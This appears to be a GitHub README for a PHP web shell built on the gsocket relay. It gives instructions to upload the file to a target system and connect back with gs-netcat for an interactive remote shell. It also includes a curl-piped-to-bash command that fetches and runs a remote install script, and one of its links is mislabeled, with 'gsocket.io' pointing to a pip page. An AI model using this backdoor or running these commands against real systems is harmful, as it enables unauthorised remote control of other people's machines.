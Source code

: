 # Gsocket-shell
A PHP shell implementation for gsocket

## Requirements:
- gs-netcat installed on your machine
- Stable internet connection

## Installation for client:

Run the following command on your machine. Visit [gsocket.io](https://pip.pypa.io/en/stable/) for more details.

```bash
/bin/bash -c "$(curl -fsSL gsocket.io/install.sh)"
```
## How to use Gsocket-Shell

First, you need to upload the file to the target system and run it. If this process succeeds, you'll receive a copy of a secret key. You can use this secret key with the gs-netcat client to establish a connection back to your target.

From your machine, open your terminal, copy the following command, and replace the 'secret_key' with your own unique key. Hit enter and you will be connected to your target through an interactive shell.

```bash
gs-netcat -s "secret_key" -i
```
## PoC

![PoC](https://raw.githubusercontent.com/fsckii/Gsocket-Shell/main/2023-10-20%2017-13-01.gif)

## Credits:

Thanks to the guys at [THC](https://www.thc.org/) for developing gsocket as a free service that's available to everyone.
